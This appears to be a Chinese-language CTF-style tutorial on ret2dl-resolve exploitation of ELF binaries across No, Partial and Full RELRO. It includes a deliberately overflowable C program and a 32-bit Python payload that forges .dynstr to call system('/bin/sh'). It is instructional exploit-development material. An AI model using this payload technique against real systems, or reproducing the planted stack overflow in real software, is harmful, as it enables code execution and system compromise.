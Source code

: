 - 参数通过栈传递，x86 和 x64 都可以使用
- 可以直接 CALL PLT0，这样就只需要传 `reloc_arg`
- 需要控制 `link_map` 的时候可以 JMP PLT0 的第二条指令
- 不需要泄漏信息和 libc 版本，百分之百稳定 get shell

## What is RELRO

Relocation Read Only（RELRO）保护有不同等级，利用的方法和复杂程度不同：

- No RELRO：所有相关的数据部分都能写
- Partial RELRO（gcc 默认设定的值）：`.dynamic`、`.dynsym`、`.dynstr` 等部分只读
- Full RELRO：所有的 Symbol 在加载时都解析完成，GOT 只读，没有 `link_map` 和 Dynamic Resolver 的指针可以利用

下面根据三种情况分析不同的攻击方法。程序源码如下：

```cpp
#include <stdio.h>
#include <unistd.h>
#include <string.h>

char buf[1000000];

int main() {
	char local[10];
//	write(1, "> ", 2); // 32位下可以在没有泄漏的情况下实现，64位下可能需要泄漏
	int len = read(0, buf, sizeof(buf));
	memcpy(local, buf, len);
	return 0;
}
```

## No RELRO

直接伪造 `.dynstr`，通过 `readelf` 找到 `.dynamic` 中 `DT_STRTAB` 的位置，把原本的 `.dynstr` 指向可控制的内存（在上面放 `"system\x00"`），然后跳到一个还没有解析过的 Symbol 上，如 `__gmon_start__`。这种方法只能在 No RELRO 的情况下使用。32 位下可以构造如下 payload：

```python
def memcpy(dst, src, length):
	return p32(memcpy_plt) + p32(pop3_ret) + p32(dst) + p32(src) + p32(length)

st_name = 0x38
payload = (
	((
		'A' * 18 + # padding
		p32(buf + 1024 + 4) # set esp=buf+1024
	).ljust(1024, '\x00') + # buf+1024
		memcpy(dynstr_addr + 4, buf + 2048, 4) +
		p32(gmon_start_plt) +
		p32(0xdeadbeef) +
		p32(buf + 2048 + 12) # &"/bin/sh\x00"
	).ljust(2048, '\x00') +  # buf+2048
	p32(buf + 2048 + 4 - st_name) + # set strtab=&"system\x00"
	'system\x00\x00' +
	'/bin/sh\x00'
)
```
